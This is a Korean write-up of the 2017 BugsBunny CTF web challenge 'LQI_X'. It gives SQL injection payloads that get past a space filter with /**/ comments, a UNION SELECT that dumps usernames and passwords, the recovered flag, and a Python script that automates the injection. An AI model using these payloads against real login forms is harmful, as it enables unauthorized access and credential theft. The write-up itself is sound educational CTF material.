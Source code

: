 # 2017 BugsBunny - [WEB] LQI_X

## Key words

- SQLi
- guessing
- limit

## Solution

문제에 접근 하면 `username`, `passowrd`를 입력 받고 이곳에서 간단히 sql injection이 발생합니다.

진행하다가 블라인드로 이해한 내용은 다음과 같습니다.

- `information_schema`, `database()`, `@@version` 등등이 작동 하지 않음
- 띄어 쓰기 필터링
- users 테이블 명을 guessing
- username, password 필드가 존재

별 다른 정보가 없어서 일단 DB를 털어 봅니다.

>?username=`1`&password=`1'/**/or/**/1=1/**/limit/**/1,1;--`

```
test
hello
flag_is
Bugs_Bunny{SQLi_Easy_!!
so_2017!
```

오잉? 뭔가 출력이 이상하지만 플래그 형태 입니다. 인증을 해보면 정답이 아닙니다. :( 현재 출력되고 있는 부분이 username 이기 때문에, password쪽을 출력 해도록 합니다.

>?username=`1`&password=`1'/**/union/**/select/**/password/**/from/**/users/**/limit/**/1,1;--`

```
_Easy_I_Dont_Think
hello
here
test
}
```

이제 정상 적으로 나온것 같습니다. username 출력과 password 출력의 순서가 맞지 않지만 내용이 많지 않기 때문에 수작업으로 맞춰 보면 다음과 같습니다.

```
hello                        hello
test                         test
flag_is                      hello
Bugs_Bunny{SQLi_Easy_!!      _Easy_I_Dont_Think
so_2017!                     }
```

결과적으로 정답은 `Bugs_Bunny{SQLi_Easy_!!_Easy_I_Dont_Thinkso_2017!}` 이 됩니다.

## Solution Code

```python
import requests

url = "http://34.253.165.46/LQI_X/index.php"

for i in range(0, 6):
    params = {
        "username": "1",
        "password": "1'/**/or/**/1=1/**/limit/**/%d,1--"%(i),
        "login": "login"
    }
    r = requests.get(url, params=params)
    username = r.content.split("<p> ")[1].split("</p>")[0]
    print "[" + username + "] ",

    params = {
        "username": "1",
        "password": "1'/**/union/**/select/**/password/**/from/**/users/**/limit/**/%d,1;--"%(i),
        "login": "login"
    }
    r = requests.get(url, params=params)
    password = r.content.split("<p> ")[1].split("</p>")[0]
    print "[" + password + "]"
```